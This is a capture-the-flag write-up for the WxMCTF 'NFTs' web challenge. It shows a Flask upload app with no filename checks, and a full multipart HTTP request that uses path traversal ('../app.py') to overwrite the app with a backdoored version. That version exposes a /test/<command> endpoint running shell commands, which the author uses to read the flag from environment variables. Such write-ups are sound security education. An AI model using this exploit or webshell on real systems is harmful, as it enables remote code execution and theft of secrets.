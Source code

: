 # WxMCTF Web 3 - NFTs
> Seize the means of minting!

## About the Challenge
We were given a web source code (You can download the source code [here](dist.zip)) and we can start an instance too. Here is the preview of the website

## How to Solve?
There are 2 functionality on the website, we can upload some file to the website and then we can access the file in `nfts` endpoint. Pretty simple right? If we check the `launch.sh` file
```sh
#!/bin/sh
gunicorn -w 1 -b 0.0.0.0:5000 --reload app:app
python -m http.server 5000
```

The gunicorn will restart if there is a code change in the source code. And because there is no restriction at all on the upload feature

```python
from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)
```

The idea here is you need to update the source code called `app.py` and add a malicious code. If you can see the HTTP request below, i added an endpoint called `test` to run an OS command

```
POST / HTTP/1.1
Host: 59db0cc.678470.xyz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------263566758113396374204204538370
Content-Length: 1456
Origin: http://59db0cc.678470.xyz
Connection: close
Referer: http://59db0cc.678470.xyz/
Upgrade-Insecure-Requests: 1

-----------------------------263566758113396374204204538370
Content-Disposition: form-data; name="file"; filename="../app.py"
Content-Type: application/octet-stream

from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import subprocess,os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)

def run_command(command):
    return subprocess.Popen(command, shell=True, stdout=subprocess.PIPE).stdout.read()

@app.route('/test/<command>')
def command_server(command):
    return run_command(command)
-----------------------------263566758113396374204204538370--
```

After sending the request, Im waiting for 1 sec and then I access `http://example/test/env` to get the flag because the flag was located on the environment

```
Because the instance was dead, there is no flag here
```